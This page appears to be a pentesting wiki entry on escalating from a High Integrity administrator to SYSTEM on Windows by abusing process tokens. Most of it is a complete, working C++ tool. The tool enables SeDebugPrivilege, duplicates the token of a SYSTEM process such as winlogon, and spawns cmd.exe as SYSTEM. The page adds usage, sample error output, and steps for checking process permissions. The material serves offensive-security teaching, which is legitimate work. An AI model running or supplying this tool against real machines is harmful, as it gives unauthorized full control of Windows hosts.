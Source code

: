 # SeImpersonate from High To System

## Code

The following code was copied from [here](https://medium.com/@seemant.bisht24/understanding-and-abusing-access-tokens-part-ii-b9069f432962). It allows to **indicate a Process ID as argument** and a CMD **running as the user** of the indicated process will be run.\
Running in a High Integrity process you can** indicate the PID of a process running as System **(like winlogon, wininit) and execute a cmd.exe as system.

```cpp
impersonateuser.exe 1234
```

{% code title="impersonateuser.cpp" %}
```cpp
#include <windows.h>
#include <iostream>
#include <Lmcons.h>
BOOL SetPrivilege(
    HANDLE hToken,          // access token handle
    LPCTSTR lpszPrivilege,  // name of privilege to enable/disable
    BOOL bEnablePrivilege   // to enable or disable privilege
)
{
    TOKEN_PRIVILEGES tp;
    LUID luid;
    if (!LookupPrivilegeValue(
        NULL,            // lookup privilege on local system
        lpszPrivilege,   // privilege to lookup
        &luid))        // receives LUID of privilege
    {
        printf("[-] LookupPrivilegeValue error: %u\n", GetLastError());
        return FALSE;
    }
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    if (bEnablePrivilege)
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    else
        tp.Privileges[0].Attributes = 0;
    // Enable the privilege or disable all privileges.
    if (!AdjustTokenPrivileges(
        hToken,
        FALSE,
        &tp,
        sizeof(TOKEN_PRIVILEGES),
        (PTOKEN_PRIVILEGES)NULL,
        (PDWORD)NULL))
    {
        printf("[-] AdjustTokenPrivileges error: %u\n", GetLastError());
        return FALSE;
    }
    if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)
    {
        printf("[-] The token does not have the specified privilege. \n");
        return FALSE;
    }
    return TRUE;
}
std::string get_username()
{
    TCHAR username[UNLEN + 1];
    DWORD username_len = UNLEN + 1;
    GetUserName(username, &username_len);
    std::wstring username_w(username);
    std::string username_s(username_w.begin(), username_w.end());
    return username_s;
}
int main(int argc, char** argv) {
    // Print whoami to compare to thread later
    printf("[+] Current user is: %s\n", (get_username()).c_str());
    // Grab PID from command line argument
    char* pid_c = argv[1];
    DWORD PID_TO_IMPERSONATE = atoi(pid_c);
    // Initialize variables and structures
    HANDLE tokenHandle = NULL;
    HANDLE duplicateTokenHandle = NULL;
    STARTUPINFO startupInfo;
    PROCESS_INFORMATION processInformation;
    ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
    ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
    startupInfo.cb = sizeof(STARTUPINFO);
    // Add SE debug privilege
    HANDLE currentTokenHandle = NULL;
    BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &currentTokenHandle);
    if (SetPrivilege(currentTokenHandle, L"SeDebugPrivilege", TRUE))
    {
        printf("[+] SeDebugPrivilege enabled!\n");
    }
    // Call OpenProcess(), print return code and error code
    HANDLE processHandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, PID_TO_IMPERSONATE);
    if (GetLastError() == NULL)
        printf("[+] OpenProcess() success!\n");
    else
    {
        printf("[-] OpenProcess() Return Code: %i\n", processHandle);
        printf("[-] OpenProcess() Error: %i\n", GetLastError());
    }
    // Call OpenProcessToken(), print return code and error code
    BOOL getToken = OpenProcessToken(processHandle, MAXIMUM_ALLOWED, &tokenHandle);
    if (GetLastError() == NULL)
        printf("[+] OpenProcessToken() success!\n");
    else
    {
        printf("[-] OpenProcessToken() Return Code: %i\n", getToken);
        printf("[-] OpenProcessToken() Error: %i\n", GetLastError());
    }
    // Impersonate user in a thread
    BOOL impersonateUser = ImpersonateLoggedOnUser(tokenHandle);
    if (GetLastError() == NULL)
    {
        printf("[+] ImpersonatedLoggedOnUser() success!\n");
        printf("[+] Current user is: %s\n", (get_username()).c_str());
        printf("[+] Reverting thread to original user context\n");
        RevertToSelf();
    }
    else
    {
        printf("[-] ImpersonatedLoggedOnUser() Return Code: %i\n", getToken);
        printf("[-] ImpersonatedLoggedOnUser() Error: %i\n", GetLastError());
    }
    // Call DuplicateTokenEx(), print return code and error code
    BOOL duplicateToken = DuplicateTokenEx(tokenHandle, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);
    if (GetLastError() == NULL)
        printf("[+] DuplicateTokenEx() success!\n");
    else
    {
        printf("[-] DuplicateTokenEx() Return Code: %i\n", duplicateToken);
        printf("[-] DupicateTokenEx() Error: %i\n", GetLastError());
    }
    // Call CreateProcessWithTokenW(), print return code and error code
    BOOL createProcess = CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &startupInfo, &processInformation);
    if (GetLastError() == NULL)
        printf("[+] Process spawned!\n");
    else
    {
        printf("[-] CreateProcessWithTokenW Return Code: %i\n", createProcess);
        printf("[-] CreateProcessWithTokenW Error: %i\n", GetLastError());
    }
    return 0;
}
```
{% endcode %}

## Error

On some occasions you may try to impersonate System and it won't work showing an output like the following:

```cpp
[+] OpenProcess() success!
[+] OpenProcessToken() success!
[-] ImpersonatedLoggedOnUser() Return Code: 1
[-] ImpersonatedLoggedOnUser() Error: 5
[-] DuplicateTokenEx() Return Code: 0
[-] DupicateTokenEx() Error: 5
[-] CreateProcessWithTokenW Return Code: 0
[-] CreateProcessWithTokenW Error: 1326
```

This means that even if you are running on a High Integrity level **you don't have enough permissions**.\
Let's check current Administrator permissions over `svchost.exe` processes with **processes explorer** (or you can also use process hacker):

1. Select a process of `svchost.exe`
2. Right Click --> Properties
3. Inside "Security" Tab click in the bottom right the button "Permissions"
4. Click on "Advanced"
5. Select "Administrators" and click on "Edit"
6. Click on "Show advanced permissions"

![](<../../.gitbook/assets/image (322).png>)

The previous image contains all the privileges that "Administrators" have over the selected process (as you can see in case of `svchost.exe` they only have "Query" privileges)

See the privileges "Administrators" have over `winlogon.exe`:

![](<../../.gitbook/assets/image (323).png>)

Inside that process "Administrators" can "Read Memory" and "Read Permissions" which probably allows Administrators to impersonate the token used by this process.

